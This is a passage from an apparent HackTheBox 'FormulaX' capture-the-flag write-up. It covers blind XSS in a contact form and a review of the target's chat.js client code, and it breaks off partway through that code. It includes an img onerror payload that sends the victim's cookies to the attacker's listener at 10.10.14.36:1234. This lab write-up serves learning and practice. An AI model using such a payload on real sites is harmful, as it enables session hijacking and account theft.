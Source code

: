 On our Python server, we can see connections being made:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-13.png)

We have tried cookie stealing as well but it wasn't successful:

`<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-16.png)


Now that we have verified blind XSS vulnerability on Contact form, let's try to escalate this.

### XSS Payload Scripting

We will first enumerate the javascript files running the chatbot.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-17.png)

Let's take a look at **chat.js**, which is used for the chatting feature:

```js
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});


//listening for the messages
socket.on('message', (my_message) => {

  //console.log("Received From Server: " + my_message)
  Show_messages_on_screen_of_Server(my_message)

})


const typing_chat = () => {
  value = document.getElementById('user_message').value
  if (value) {
    // sending the  messages to the server
    socket.emit('client_message', value)
    Show_messages_on_screen_of_Client(value);
    // here we will do out socket things..
    document.getElementById('user_message').value = ""
  }
  else {
    alert("Cannot send Empty Messages");
  }

}
function htmlEncode(str) {
  return String(str).replace(/[^\w. ]/gi, function (c) {
```